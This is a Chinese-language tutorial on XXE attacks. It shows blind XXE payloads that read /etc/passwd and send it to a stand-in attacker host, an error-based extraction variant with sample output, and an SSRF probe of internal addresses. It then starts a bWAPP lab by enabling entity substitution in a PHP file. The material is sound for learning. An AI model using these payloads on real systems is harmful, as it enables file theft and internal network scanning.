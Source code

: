 在之前学习XXE攻击方式的过程中，我们用XXE攻击来获取passwd文件。其实这就是XXE获取隐私文件的攻击方式。

在之前的示例中，我们默认了页面会将我们设置的XML内容进行输出，但实际上， **Web应用往往不会输出我们注入的XML内容**。这时候就是XXE盲注，我们需要借助一些技巧，来将文件的内容展示出来。

面对XXE盲注时，我们可以利用带外的方法来获取数据：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

在上述示例中，我们将获取到的数据通过get方式发送到攻击者的服务器，这样攻击者可以查看服务器接收到的请求获取到想要的数据。

当然，我们还可以利用报错信息来输出想要获取的数据：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

```

在这个示例中，我们将引入了error参数，XML会去访问一个不存在的文件，导致错误的产生，并将错误信息给eval，由于文件路径中存在我们需要的数据file，这样就会导致Web应用显示出错信息，并且其中包含我们需要的数据。我们可以看一个示例输出：

```plain
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

```

### XXE发起SSRF攻击

SSRF攻击即为服务端请求伪造，我们可以利用XXE来实现。首先我们先来看一个示例，这样可以帮助我们理解它的攻击方式。

```plain
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

```

这是我们需要注入的XML代码，Web应用在解析它的时候，会向其中的链接发出请求，并且这个请求是由被攻击Web应用的服务器所发送的，这就是SSRF攻击。

它到底有什么作用呢？ **我们可以利用它来判断Web应用服务器内网地址的开启情况**，只需要将链接改为服务器的内网地址，然后根据响应的内容就可以判断内网地址是否开放，这会对内网的安全产生威胁。

在了解完XXE的攻击方式后，让我们进入到实战部分来切身体会下XXE攻击的危害吧。

## 实战演练

在实战过程中，我们选用靶场bwapp做测试，需要注意的是，我们要将bwapp靶场中的xxe-2.php文件中的内容作修改，将$xml的值改为如下：

```php
$xml = simplexml_load_string($body,'SimpleXMLElement',LIBXML_NOENT);

```
